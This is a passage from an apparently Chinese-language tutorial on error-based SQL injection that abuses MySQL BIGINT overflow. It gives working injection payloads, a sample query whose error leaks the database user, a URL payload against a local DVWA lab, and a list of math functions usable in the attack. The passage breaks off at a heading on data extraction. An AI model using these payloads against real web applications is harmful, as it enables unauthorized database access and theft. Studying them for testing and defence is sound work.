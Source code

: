 我们先不使用加法，因为“+”通过网页浏览器进行解析的时候，会被转换为空白符（不过，你可以使用%2b来表示“+”）。 相反，我们可以使用减法。所以说，同一种注入攻击，可以有完全不同的变种。 最终的查询语句如下所示。

```
!(select*from(select user())x)-~0

(select(!x-~0)from(select(select user())x)a)

(select!x-~0.from(select(select user())x)a)

```

举例来说，我们可以像下面一样，在一个查询语句中进行注入操作。

```
mysql> select username, password from users where id='1' or !(select*from(select user())x)-~0;
ERROR 1690 (22003): BIGINT value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'

```

<http://localhost/dvwa/vulnerabilities/sqli/?id=1' or !(select*from(select user())x)-~0-- -|&Submit=Submit#>

![enter image description here](http://drops.javaweb.org/uploads/images/ee68e44ce6eb0ed46eda9aa9a7d1de45ce192e93.jpg)

利用这种基于BIGINT溢出错误的注入手法，我们可以几乎可以使用MySQL中所有的数学函数，因为它们也可以进行取反，具体用法如下所示：

```
select !atan((select*from(select user())a))-~0; 
select !ceil((select*from(select user())a))-~0;
select !floor((select*from(select user())a))-~0;

```

下面的我们已经测试过了，如果你愿意的话，还可以找到更多:)

```
HEX
IN
FLOOR
CEIL
RAND
CEILING
TRUNCATE
TAN
SQRT
ROUND
SIGN

```

0x003 提取数据
==========

* * *
